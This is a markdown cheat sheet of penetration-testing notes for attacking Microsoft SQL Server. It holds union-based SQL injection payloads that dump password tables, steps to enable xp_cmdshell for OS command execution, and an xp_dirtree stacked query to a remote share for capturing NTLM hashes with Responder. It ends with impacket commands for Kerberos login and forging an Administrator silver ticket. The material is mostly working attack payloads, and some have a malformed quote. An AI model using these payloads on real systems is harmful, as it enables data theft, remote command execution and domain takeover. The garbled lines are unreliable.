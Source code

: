 # MSSQL
## CLI
Cli command
```
sqlcmd
```
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```

## Injection
Get tables:
```
1' union select 1,name,id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Concat different things into one:
```
1' union select 1,concat(name,':',id),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Instead of `GROUP_CONCAT` we use `string_agg`:
```
1' union select 1,(select string_agg(concat(name,':',id),|')),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Getting columns:
```
1' union select 1,(select string_agg(name,'|')),id,4,5,6 from <tablename>..syscolumns where id=<table-id-that-we-get-above>-- -
```
Dump data:
```
1' union select 1,(select string_agg(concat(username,'/',password),|') from <db-name>..<table-name>),3,4,5,6-- -
```

Some useful variables:
```
@@version

# Current user
user

# Current DB
db_name()

# You can increase number
db_name(0)
db_name(1)
```

# Command Injection
## `xp_cmdshell`
If it is disabled: https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC xp_cmdshell 'whoami';
```

## Stacked Queries
Use it with responder. If it is system account you f*cked up! :D
```
500'; EXEC xp_dirtree '\\10.10.10.10\sharename\file';-- -
```



# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
